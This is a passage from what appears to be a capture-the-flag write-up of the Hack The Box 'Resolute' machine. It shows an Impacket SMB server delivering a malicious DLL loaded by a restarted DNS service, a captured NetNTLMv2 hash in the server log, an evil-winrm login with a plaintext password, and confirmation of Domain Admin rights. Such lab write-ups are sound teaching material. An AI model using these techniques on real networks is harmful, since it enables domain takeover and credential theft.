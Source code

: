 ```text
        PID                : 1008
        FLAGS              :
```

Back at my SMB server, I saw the incoming connection from the `RESOLUTE` machine. _The dll was only retrieved when the DNS service was restarted, so don't worry if you don't see the request for the file when you run the earlier command._

```text
zweilos@kalimaa:/usr/bin$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,52825)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:b7cf9e97aaa2dc6eb6c445bfd31b78c0:010100000000000080dc5b96b140d601f055aec715c614f90000000001001000730066004e005600480079007a00620003001000730066004e005600480079007a00620002001000420074004e006b004b0047007400760004001000420074004e006b004b004700740076000700080080dc5b96b140d60106000400020000000800300030000000000000000000000000400000ec955b51be4dc45f746b5b6c2c304b5c83f6fde057b51098f9837f196eb5368e0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200350033000000000000000000
[*] Disconnecting Share(1:SHARE)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (10.10.10.169,52825)
[*] Remaining connections []
```

In order for the new permissions to take effect I had to log out of the user and log back in.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> exit

Info: Exiting with code 0

zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

### Domain Admin

After logging out and back in, I verified that the user `ryan` was indeed a member of the `Domain Admins` group and had the right privileges.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------
```